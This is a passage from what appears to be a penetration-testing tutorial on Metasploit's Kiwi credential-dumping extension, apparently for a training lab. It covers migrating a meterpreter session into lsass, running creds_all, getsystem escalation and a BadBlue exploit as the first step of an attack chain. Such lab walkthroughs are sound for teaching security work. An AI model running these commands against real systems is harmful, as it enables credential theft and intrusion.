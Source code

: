 ```bash
# Step 4: Try manual PID migration
ps | grep lsass
migrate 596
# Use actual PID from ps output
```

**Prevention Tips:**
- Get SYSTEM privileges before attempting migration
- Use `getsystem` command if needed
- Try different system processes if lsass.exe fails

---

### **❌ Problem 4: Session Becomes Unstable**

**What You See:**
```bash
meterpreter > creds_all
# Session hangs or becomes unresponsive
```

**How to Fix:**
```bash
# If session is still responsive:
migrate -N explorer.exe
# Move to more stable process

# If session is completely hung:
# Background the session and establish new one
background
sessions -l
# Create new session through different exploit
```

**Stability Tips:**
- Always migrate to stable processes
- Don't run too many credential extraction commands rapidly
- Save results immediately after getting them
- Have backup sessions ready

---

## 🔗 Using Kiwi with Other Tools

### **🎯 Complete Attack Chain: Exploitation → Kiwi → Lateral Movement**

This shows how Kiwi credential extraction fits into a full penetration testing workflow.

#### **Phase 1: Initial Exploitation**
```bash
# Get initial shell through vulnerability
msfconsole
use exploit/windows/http/badblue_passthru
set RHOSTS demo.ine.local
exploit
# Establishes meterpreter session

# Elevate privileges
getsystem
getuid
# Verify SYSTEM access
```
